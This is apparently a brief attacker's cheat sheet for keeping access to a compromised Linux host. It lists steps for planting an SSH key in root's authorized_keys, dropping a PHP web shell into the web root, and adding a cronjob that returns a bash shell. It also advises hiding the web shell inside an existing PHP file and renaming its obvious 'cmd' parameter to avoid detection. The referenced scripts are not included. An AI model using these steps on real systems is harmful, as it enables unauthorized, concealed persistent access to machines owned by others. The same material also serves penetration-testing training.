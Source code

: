 				SSH BackDoor

-- ssh-keygen                                   Generates ssh key
    -- Leave public key                      	 Place '/root/.ssh'
    -- SSH Name                                    Name 'authorized_keys'
        -- chmod 600 id_rsa               	  Gives permissions

-- ssh -i id_rsa root@ip                    Use BackDoor

				PHP BackDoor

-- Location                                         /var/www/html
    -- BackDoor script                           Script/PHP-BackDoor.php

-- Where to execute script                https://ip/PHP-BackDoor.php

                		Hide script

-- Add in existing PHP File
-- Change the "cmd" parameter, cmd is very obvious

				Cronjob BackDoor
-- crontab -l
-- Add to Cronjob                               /script/Crontab Line 1
    -- Add Script inside Cronjob            /script/Crontab Line 3,4
-- Get Bash shell

-- Host HTTP server                             python3 -m http.server 8080

				Links

-- https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c
